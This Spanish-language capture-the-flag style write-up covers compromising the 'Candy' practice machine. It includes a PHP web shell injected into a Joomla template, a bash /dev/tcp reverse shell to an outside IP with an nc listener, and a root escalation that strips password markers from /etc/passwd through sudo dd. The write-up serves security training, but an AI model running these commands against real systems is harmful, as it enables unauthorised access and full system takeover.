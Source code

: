 # Reporte Técnico - Pentesting Máquina Vulnerable **Candy**

**Nivel:** Fácil

---

## Descripción

Se descargó la máquina vulnerable y se descomprimió con:

```bash
unzip candy.zip
```

Luego se desplegó con:

```bash
sudo bash auto_deploy.sh candy.tar
```

![Despliegue de la máquina](Imágenes/2025-05-14_23-56.png)

---

![Ping a la máquina](Imágenes/Capturas.png)

---

## Conectividad

Se verificó la conexión a la máquina con un ping:

```bash
ping -c1 172.17.0.3
```

![Nmap escaneo completo](Imágenes/Capturas_1.png)

---

## Escaneo de puertos

Se ejecutó un escaneo intensivo para identificar puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Solo se encontró el puerto 80 (HTTP) abierto.
![Nmap escaneo versión y scripts](Imágenes/Capturas_2.png)

Luego, para obtener más detalles sobre el puerto 80:

```bash
nmap -sC -sV -p80 172.17.0.3 -oN target.txt
```

![Página principal](Imágenes/Capturas_3.png)

---

## Reconocimiento web

Al acceder a [http://172.17.0.3:80](http://172.17.0.3:80) se encontró una página con formulario de inicio de sesión y registro.
![Directorios encontrados](Imágenes/Capturas_4.png)

---

## Fuzzing de directorios ocultos

Se realizó fuzzing para descubrir directorios ocultos con:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron los siguientes directorios:

```
/images               
/media               
/templates           
/modules              
/plugins             
/includes             
/language             
/README.txt           
/components           
/api                  
/cache                
/index.php            
/robots.txt           
/tmp                  
/LICENSE.txt          
/layouts              
/administrator       
/configuration.php    
/htaccess.txt        
/cli                 
```

![Página administrador](Imágenes/Capturas_5.png)

---

## Usuarios y credenciales

En el directorio `/administrator` se encontró el usuario `TLuisilloo`:
[http://172.17.0.3/administrator/index.php](http://172.17.0.3/administrator/index.php)
![Decodificación Base64](Imágenes/Capturas_6.png)

En `/robots.txt` se hallaron posibles credenciales codificadas:

```
admin:c2FubHVpczEyMzQ1
```

Decodificando base64 con:

```bash
echo c2FubHVpczEyMzQ1 | base64 -d
```

Obtenemos la contraseña:

```
sanluis12345
```


![Credenciales decodificadas](Imágenes/Capturas_7.png)

Con estas credenciales se logró acceder como administrador:
![Acceso administrador](Imágenes/Capturas_8.png)
![Página principal con sesión iniciada](Imágenes/Capturas_9.png)

---

## Subida de Webshell

En el menú `System > Site Templates` se encontró la posibilidad de subir archivos maliciosos para obtener una web shell.
![Subida de archivos maliciosos](Imágenes/Capturas_10.png)

---

## Método de explotación 1: Inyección de Web Shell PHP

Se modificó el archivo `index.php` en la línea 143 agregando:

```php
<?php echo system($_GET['shadow']); ?>
```

* **$\_GET\['shadow']**: obtiene el parámetro `shadow` de la URL.
* **system()**: ejecuta el comando del sistema operativo recibido.
* **echo**: muestra la salida del comando en el navegador.

**Ejemplo de uso:**

```
http://172.17.0.3/index.php?shadow=ls
```

Ejecuta `ls` y muestra el resultado. También:

```
http://172.17.0.3/index.php?shadow=cat%20/etc/passwd
```

Revela el contenido de `/etc/passwd`.
![Ejecutando comando ls](Imágenes/Capturas_11.png)
![Leyendo /etc/passwd](Imágenes/Capturas_12.png)

---

## Método 2: Reverse Shell en PHP

Se reutilizó el mismo código de la web shell. Desde el navegador se ejecuta:

```
http://172.17.0.3/?shadow=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.1.10/433+0>%261'
```

(Cambia la IP y puerto según tu equipo)

Se debe tener el puerto escuchando antes con:

```bash
sudo nc -lvnp 433
```

Y se obtiene acceso a una terminal remota.
![Reverse shell conexión](Imágenes/Capturas_13.png)
![Terminal remota](Imágenes/Capturas_14.png)

---

## Escalada de privilegios

Al no poder usar `sudo -l` directamente, se buscó con:

```bash
find / -name "*.txt" 2>/dev/null
```

Se encontró el archivo `/var/backups/hidden/otro_caramelo.txt` con credenciales sensibles:

```php
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';
```

![Archivo con credenciales](Imágenes/Capturas_15.png)

Verificando usuarios en `/etc/passwd`, existe `luisillo`. Con estas credenciales se pudo usar:

```bash
sudo -l
```

Mostrando que `luisillo` puede usar:

```
(ALL) NOPASSWD: /bin/dd
```

![Permisos sudo](Imágenes/Capturas_16.png)

---

## Escalada final con dd

1. Copiamos `/etc/passwd` para editarla:

```bash
cat /etc/passwd > copia.txt
```

2. Eliminamos la `x` (marca de contraseña) del archivo:

```bash
sed 's/x//g' copia.txt > copia_sin_x.txt
```

3. Sobrescribimos `/etc/passwd` con la copia modificada:

```bash
cat copia_sin_x.txt | sudo /bin/dd of=/etc/passwd
```

4. Accedemos como root con:

```bash
su
```

![Acceso root](Imágenes/Capturas_17.png)

---

# Conclusión

Se logró explotar la máquina vulnerable Candy a nivel fácil, desde reconocimiento hasta escalada de privilegios root, mediante técnicas de webshell, reverse shell y explotación de permisos sudo con `dd`. Este ejercicio demuestra la importancia de proteger la ejecución remota de comandos y la correcta configuración de sudoers.

---
